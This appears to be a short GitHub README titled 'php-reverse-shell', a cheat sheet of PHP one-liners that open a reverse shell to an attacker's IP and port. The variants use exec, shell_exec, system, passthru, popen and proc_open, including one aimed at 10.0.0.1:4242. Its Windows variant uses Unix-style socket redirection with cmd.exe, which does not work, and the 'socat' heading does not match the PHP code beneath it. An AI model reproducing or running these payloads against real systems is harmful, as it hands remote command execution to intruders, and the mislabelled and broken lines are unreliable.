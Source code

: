 # php-reverse-shell



![image](https://user-images.githubusercontent.com/79219451/116995519-03dc4480-ac8f-11eb-9331-d247ecb58d44.png)





**PHP**
```
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("IP",PORT);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

**windows**
```
php -r '$sock=fsockopen("IP",PORT);exec("C:\Windows\system32\cmd.exe -i <&3 >&3 2>&3");'
```

**socat**
```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
